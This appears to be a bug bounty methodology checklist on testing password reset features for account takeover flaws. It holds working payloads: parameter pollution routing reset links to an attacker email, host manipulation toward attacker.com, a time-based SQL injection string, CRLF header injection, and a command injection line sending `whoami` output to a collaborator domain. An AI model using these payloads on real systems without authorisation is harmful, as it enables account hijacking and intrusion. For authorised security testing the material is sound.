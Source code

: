 # Testing Password Reset Functionality
1. Look for Password Reset Poisoning.
2. HTTP Parameter Pollution:
```
email=victim@gmail.com&email=attacker@gmail.com
email[]=victim@gmail.com&email[]=attacker@gmail.com
email=victim@gmail.com%20email=attacker@gmail.com
email=victim@gmail.com|email=attacker@gmail.com
{"email":"victim@gmail.com","email":"attacker@gmail.com"}
{"email":["victim@gmail.com","attacker@gmail.com"]}
```
Check if you can reset victim's password using the link received in attacker's inbox.

3. Look for IDOR while resetting password through password reset link. Use paramminer to discover additional parameters or append previously known parameters (For example, you may find a parameter uid while updating your profile) in the request.
4. Broken Crypto - Check if you can guess how the password reset tokens are generated.
5. Password reset token Leakage via referral header - Open the password reset link and click on any external links available in the page. 
6. Token leakage in response/JS files - Search for the password reset token in the response of the request or in JS files.
7. Session/Token is not expiring after password reset.
8. Weak Password Policy - Add only space in password.
9. Request for 2 password reset links and try the older one.
10. Try:
```
POST https://attacker.com/resetpassword.php HTTP/1.1
POST @attacker.com/resetpassword.php HTTP/1.1
POST :@attacker.com/resetpassword.php HTTP/1.1
POST /resetpassword.php@attacker.com HTTP/1.1
```
Check if the password reset link is manipulated or not.

11. SQLi: ```test@test.com'+(select*from(select(sleep(2)))a)+'```
12. CRLF: ```/resetpassword?%0d%0aHost:%20attacker.com```
13. Register with a username identical to the victim's username, but with white spaces inserted before and/or after the username("tuhin1729 ", " tuhin1729 " etc). Try a password reset for your account. Use the token to reset victim's password. A similar vulnerability was found in CTFd ([CVE-2020-7245](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7245))
14. Application Level DoS - Try to set a very long password and check if the response time is delayed or if you get a 5xx response.
15. If they are sending an otp for password reset, try [2FA Bypass](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/2FA.md) techniques.
16. During registration, use homograph in email. Now try password reset.
17. Change the request method and content-type and observer how the application is responding.
18. Append null bytes after your email and observe the response.
19. Try XSS, SSTI etc in the email field.
20. Try Command injection by ```email=hello@`whoami`.xyz.burpcollaborator.net```
21. 2FA auto disabled after password reset.
22. User Enumeration.
23. Check whether any param value is reflecting in the email. Now try HTMLi.
24. XXE (if forgot-password request accepts xml).
25. Missing Rate Limit - Email triggering.

Reference:
- https://twitter.com/tuhin1729_/status/1437471718142976007
- https://speakerdeck.com/tuhin1729/account-takeover-via-exploiting-misconfigured-password-reset-feature
- https://speakerdeck.com/tuhin1729/abusing-password-reset-functionality
